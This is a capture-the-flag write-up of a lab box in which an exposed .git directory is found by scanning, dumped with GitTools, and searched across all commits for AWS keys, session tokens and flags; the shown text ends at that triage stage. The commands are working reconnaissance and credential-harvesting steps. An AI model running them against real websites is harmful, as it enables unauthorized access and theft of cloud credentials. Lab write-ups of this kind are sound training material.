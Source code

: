 # Leak (CTF Cloud) — Write‑up

**Target:** `http://10.129.198.137/`  
**Theme:** Exposed `.git` → leaked cloud (LocalStack) configuration → Lambda enumeration → flag via Lambda code / invoke  
**Note:** Everything below was performed **only** within CTF scope.

---

## 1) Recon

### 1.1 Port & service scan
```bash
nmap 10.129.198.137 -A
```
**Findings (highlights):**
- `22/tcp` OpenSSH 8.2p1 (Ubuntu)
- `80/tcp` Apache/2.4.41 (Ubuntu); title: **Accounting Services**
- `http-git` script: **`.git/` repository found**

### 1.2 Quick HTTP fingerprint
```bash
whatweb -a 3 http://10.129.198.137/
curl -sI http://10.129.198.137/.git/HEAD
curl -sI http://10.129.198.137/.git/config
```

---

## 2) Dump & reconstruct the leaked Git repository

### 2.1 Dump with GitTools (no pip needed)
```bash
cd ~/Desktop/ctf
git clone https://github.com/internetwache/GitTools.git
mkdir -p repo
bash GitTools/Dumper/gitdumper.sh http://10.129.198.137/.git/ repo
bash GitTools/Extractor/extractor.sh repo/.git repo_worktree
```

### 2.2 Triage the repo
```bash
cd repo_worktree
git --git-dir=../repo/.git --work-tree=. log --oneline -n 20
git --git-dir=../repo/.git --work-tree=. log -p -- create_function.py | sed -n '1,200p'

# Hunt secrets / endpoints / flags in HEAD and across commits
git --git-dir=../repo/.git --work-tree=. grep -nE '(AWS_SESSION_TOKEN|AccessKeyId|SecretAccessKey|SessionToken|code\.zip|lambda_function\.py|FLAG\{)'
for c in $(git --git-dir=../repo/.git rev-list --all); do
  git --git-dir=../repo/.git grep -nE '(AWS_SESSION_TOKEN|AccessKeyId|SecretAccessKey|SessionToken|code\.zip|lambda_function\.py|FLAG\{)' $c && echo "---- $c ----"
done
```
